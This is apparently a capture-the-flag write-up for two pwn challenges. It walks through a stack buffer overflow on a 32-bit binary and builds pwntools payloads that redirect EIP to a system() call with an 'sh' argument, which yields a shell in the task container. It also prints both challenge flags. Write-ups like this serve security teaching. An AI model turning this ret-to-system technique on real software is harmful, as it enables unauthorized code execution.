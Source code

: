 > **Shell Medium**
> Run a command and get the flag.
> ASLR is off on the server.

> **Shell Hard**
> Maybe changing the code isnt the right direction.
> Note: The binary from shell has not changed

The functions here are exactly the same as in the task [PWN - Never Called](../PWN%20-%20Never%20Called/PWN%20-%20Never%20Called%20(Easy).md), but only the printFlag function is different, it now takes the *command* parameter and calls *system*.

![](1.png)

Offset remains the same - 62, the address of the printFlag function is 0x5655628b.

![](2.png)
![](3.png)

Now let's try the exploit from **Never Called**, but change the payload itself to the next one to get a better understanding of what will happen.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapa',
    p32(0x5655628b),
)
```

And in EDB let's see what happens in the printFlag function. We set breakpoint at address 0x5655628b. Our payload is written into the stack and output to the terminal. And the same thing happens before calling *system*.

![](4.png)
![](5.png)

We see that the last to be written from our line is 'aala'. Then we write *'sh'* instead and after it and the flaw byte to overwrite the EIP register. And add another 20 characters and see what happens to the program.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka',
    b'sh\x00',
    b'aaamaaanaaaoaaapp',
    p32(0x5655628b),
    b'aaaabaaacaaadaaaeaaa',
)
```

So, the program crashed when trying to address **0x61616162 (baaa)**. We get offset - 4.

![](6.png)

So after overwriting the EIP register we need to add 4 bytes and the memory address of the 'sh' line. Our command has the address **0x5655a5da**.

![](7.png)

Now let's rewrite the payload and run our exploit.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka',
    b'sh\x00',
    b'aaamaaanaaaoaaapp',
    p32(0x5655628b),
    b'B' * 4,
    p32(0x5655a5da)
)
```

Run the exploit command and gain control over the task container.

```sh
python3 shell.py DEBUG
```

![](8.png)

I never understood the difference between the tasks, I was just lucky that the exploit fit both tasks! Judging by the description of the Hard task, it was possible to solve the Medium task by changing the code.

> [**Full exploit**](shell.py)
> 
> Flag Medium: **bucket{5h331_4cc355_d8ebd45cc}**
> 
> Flag Hard: **bucket{41w4y5_check_h1dd3n_f2f31ec5}**
